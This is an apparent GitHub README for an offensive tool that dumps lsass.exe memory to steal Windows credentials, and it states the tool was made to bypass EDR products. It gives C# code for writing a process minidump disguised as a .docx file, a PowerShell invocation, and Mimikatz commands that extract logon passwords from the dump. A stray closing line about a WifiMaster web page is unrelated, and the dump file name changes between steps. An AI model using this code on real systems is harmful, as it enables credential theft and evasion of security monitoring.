 # Lsass-Dump-PS
The LsassDumper is a Mimikatz alternative tool used for credential dumping created to bypass EDR products.



# How to Use

* step 1: Edit the script: Chanage the path to the file (file parameter)
```C#
 public static void RunMe(int procId)
        {
            string dumpFileName = "C:\\Users\\Username\\Desktop\\foo.docx";
            FileStream file = new FileStream(dumpFileName, FileMode.Create);
            IntPtr hProcess = OpenProcess((uint)0x001F0FFF, true, procId);
            bool res;
            MINIDUMP_EXCEPTION_INFORMATION info = new MINIDUMP_EXCEPTION_INFORMATION();
            res = MiniDumpWriteDump(hProcess, (uint)procId, file.SafeFileHandle.DangerousGetHandle(), 0002, ref info, IntPtr.Zero, IntPtr.Zero);
            if(res){
                Console.WriteLine("Created By Liav Gutman AKA PT-MasterMind :)");
            
            }else{
                Console.WriteLine("Something went wrong please try again");
            
            
            }
 
```
* step 2: Configre the `lsass.exe` process id.
```
 [GoodMod.Dump]::RunMe(16048)
```
* step 3: Load the dump file (foo.docx) to [Mimikatz](https://github.com/gentilkiwi/mimikatz) and done!
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::minidump liav.docx

mimikatz # sekurlsa::logonpasswords
 
```


If you want to choose another web page go to: /opt/WifiMaster/program_files/server and then put there the page you want to and name it " index.html "
